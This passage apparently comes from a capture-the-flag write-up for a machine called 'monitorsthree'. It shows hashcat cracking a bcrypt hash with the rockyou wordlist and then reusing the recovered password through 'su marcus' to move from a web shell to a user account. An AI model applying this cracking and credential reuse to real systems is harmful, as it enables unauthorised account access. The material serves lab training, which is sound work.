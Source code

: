 ```bash
Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /opt/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIa...9IBjtK
Time.Started.....: Fri Jan 17 16:37:45 2025 (3 secs)
Time.Estimated...: Fri Jan 17 16:37:48 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      172 H/s (2.91ms) @ Accel:12 Loops:4 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 576/14344384 (0.00%)
Rejected.........: 0/576 (0.00%)
Restore.Point....: 432/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1020-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 12345678910 -> parola
Hardware.Mon.#1..: Temp: 65c Util: 87%

Started: Fri Jan 17 16:37:14 2025
Stopped: Fri Jan 17 16:37:50 2025
```
Testing the cracked password of marcus user for password reuse

```bash
www-data@monitorsthree:~/html/cacti/resource$ su marcus
su marcus
Password: 12345678910

marcus@monitorsthree:/var/www/html/cacti/resource$ whoami
whoami
marcus
marcus@monitorsthree:/var/www/html/cacti/resource$ cd /home/marcus
cd /home/marcus
marcus@monitorsthree:~$ ls
ls
user.txt
marcus@monitorsthree:~$ ls -la
ls -la
total 32
drwxr-x--- 4 marcus marcus 4096 Aug 16 11:35 .
drwxr-xr-x 3 root   root   4096 May 26  2024 ..
lrwxrwxrwx 1 root   root      9 Aug 16 11:29 .bash_history -> /dev/null
-rw-r--r-- 1 marcus marcus  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 marcus marcus 3771 Jan  6  2022 .bashrc
drwx------ 2 marcus marcus 4096 Aug 16 11:35 .cache
```